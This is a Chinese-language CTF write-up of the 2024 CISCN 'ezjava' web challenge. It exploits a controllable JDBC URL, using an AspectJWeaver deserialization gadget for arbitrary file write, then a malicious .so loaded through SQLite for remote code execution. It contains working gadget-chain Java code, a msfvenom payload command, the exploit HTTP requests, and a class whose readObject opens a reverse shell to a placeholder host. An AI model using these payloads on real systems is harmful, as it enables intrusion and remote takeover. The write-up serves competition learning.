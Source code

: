 ```yaml
---
title: 2024CISCN_WEB_ezjava题解
date: 2024-06-01 18:53:00 +0800
img_path: /
categories: [CTF, CTF比赛记录]
tags: [CTF, CTF比赛记录]   

---
```




# 2024CISCN_WEB_ezjava题解

## 一、题目分析

访问可看到`JDBC`连接的界面，大概知道应该考察的是`JDBCAttack`

![image-20240601193237928](assets/image-20240601193237928.png)

反编译`jar`包可看到，这里`url`可控存在明显的利用点。

![image-20240601193457261](assets/image-20240601193457261.png)

`pom.xml`中看到`AspectJWeaver`，网上查到存在一个任意文件写的链，但是是依赖`CC`的。

![image-20240601193606087](assets/image-20240601193606087.png)

后面发现`Jar`包中自带了个`UserBean`并且实现了`Serializable`

![image-20240601194016489](assets/image-20240601194016489.png)

在`readObject`中可以看到调用的`a.put`并且`name`和`age`以及`a`都是可控的，所以不用`CC`也可以实现任意文件写。

```java
package org.example.JDBC;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;

import java.util.Base64;
import java.util.HashMap;

public class AspectJWeaverSer {

    public static void main(String[] args) throws Exception {
        Constructor con = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap").getDeclaredConstructor(String.class, int.class);
        con.setAccessible(true);
        // 实例化对象
        HashMap map = (HashMap) con.newInstance("/tmp/", 1); //这里写文件路径（必须是存在的路径）
        Constructor constructor = Class.forName("com.example.jdbctest.bean.UserBean").getDeclaredConstructor();
        constructor.setAccessible(true);
        Object userBean = constructor.newInstance();
        Class cls = userBean.getClass();
        Field field = cls.getDeclaredField("obj");
        field.setAccessible(true);
        field.set(userBean, map);
        Field field1 = cls.getDeclaredField("name");
        field1.setAccessible(true);
        field1.set(userBean, "xxx.xxx"); //这里写文件名
        Field field2 = cls.getDeclaredField("age");
        field2.setAccessible(true);
        String payload = "";  //这里写base64编码后的文件内容
        field2.set(userBean, payload);
        byte[] bytes = serialize(userBean);
        System.out.println(new String(Base64.getEncoder().encode(bytes)));
        Object o = deserialize(bytes);
    }

    public static byte[] serialize(final Object obj) throws Exception {
        ByteArrayOutputStream btout = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(btout);
        objOut.writeObject(obj);
        return btout.toByteArray();
    }

    public static Object deserialize(final byte[] serialized) throws Exception {
        ByteArrayInputStream btin = new ByteArrayInputStream(serialized);
        ObjectInputStream objIn = new ObjectInputStream(btin);
        return objIn.readObject();
    }
}
```

到这里以及完成了任意文件写，但是回到了一个经常被问到的问题：`SpringBoot`项目任意文件写如何才能RCE？

这里其实网上存在的一些方法比如覆盖`$JAVA_HOME/jre/lib/`路径下的`jar`包再去触发特定的方法，或者是往`$JAVA_HOME/jre/classes`写一个恶意类再去加载它（但是`classes`这个目录默认是没有的，就这个题而言是无法创建这个目录的，因为无法往不存在的路径写内容）。

在比赛时，尝试去利用但是条件都太局限了，最终也是没能实现（笔者太菜了），以为出题人想要考察`SpringBoot`项目任意文件写RCE，所以思维被局限在任意文件写`RCE`里了。

其实赛后看到大佬们的打法，才发现还有写一个恶意的`.so`文件然后通过`Sqlite`去加载`.so`文件的方法，还是对这方面了解的少太菜了  /(ㄒoㄒ)/~~。

## 二、题目复现

先生成个恶意的`.so`，

```bash
msfvenom -p linux/x64/exec CMD='echo YmFzaCAtaSA+JiAvxxxxxxxxxxx |base64 -d|bash' -f elf-so -o evil.so
```

![image-20240601203258833](assets/image-20240601203258833.png)



![image-20240601203508662](assets/image-20240601203508662.png)

fakeServer：`fake-mysql-gui-0.0.4.jar`

![image-20240601203944606](assets/image-20240601203944606.png)

写入恶意`.so`：

```http
POST /jdbc/connect HTTP/1.1
Host: ip:port
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Length: 78

{"type":"1","url":"jdbc:mysql://ip:port/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=base64ZGVzZXJfQ1VTVE9N"}
```

触发恶意`.so`:

```http
POST /jdbc/connect HTTP/1.1
Host: ip:port
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Length: 78

{"type":"3","tableName":"(select (load_extension(\"/tmp/evil.so\")));","url":"jdbc:sqlite:file:/tmp/db?enable_load_extension=true"}
```

![image-20240601203900568](assets/image-20240601203900568.png)

## 三、题外思考

在本地搭建环境调试和查资料的时候，发现假设可以往`$JAVA_HOME/jre/classes`里写内容，其实可以写一个恶意类比如`Evil.class`。

```java
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;

public class Evil implements Serializable {
    private void readObject(ObjectInputStream ois){
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        ProcessBuilder pb = new ProcessBuilder("bash", "-c", "$@| bash -i >& /dev/tcp/vps/9001 0>&1").redirectErrorStream(true);
        try {
            Process p = pb.start();
            p.waitFor();
            p.destroy();
        } catch (Exception e) {

        }
        try {
            Runtime.getRuntime().exec("notepad");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
}

```

我们可以在任意地方，通过反射获取这个类并且可以实例化。

```java
package org.example.JDBC;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.util.Base64;

public class EvilCaller {
    public static void main(String[] args) {
        try {
            Class<?> evilClass = Class.forName("Evil");
            Object evilInstance = evilClass.getDeclaredConstructor().newInstance();
            ByteArrayOutputStream btout = new ByteArrayOutputStream();
            ObjectOutputStream objOut = new ObjectOutputStream(btout);
            objOut.writeObject(evilInstance);
            System.out.println(new String(Base64.getEncoder().encode(btout.toByteArray())));
            //deserialize(btout.toByteArray());
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    public static Object deserialize(final byte[] serialized) throws Exception {
        ByteArrayInputStream btin = new ByteArrayInputStream(serialized);
        ObjectInputStream objIn = new ObjectInputStream(btin);
        return objIn.readObject();
    }
}
```

那么可以往`$JAVA_HOME/jre/classes`写一个恶意类并且实现`Serializable`并重写它的`readObject`。

然后在`FakeServer`写入恶意类`Evil`序列化后的`Base64`编码，当再次触发时就可以实现`任意代码执行`。

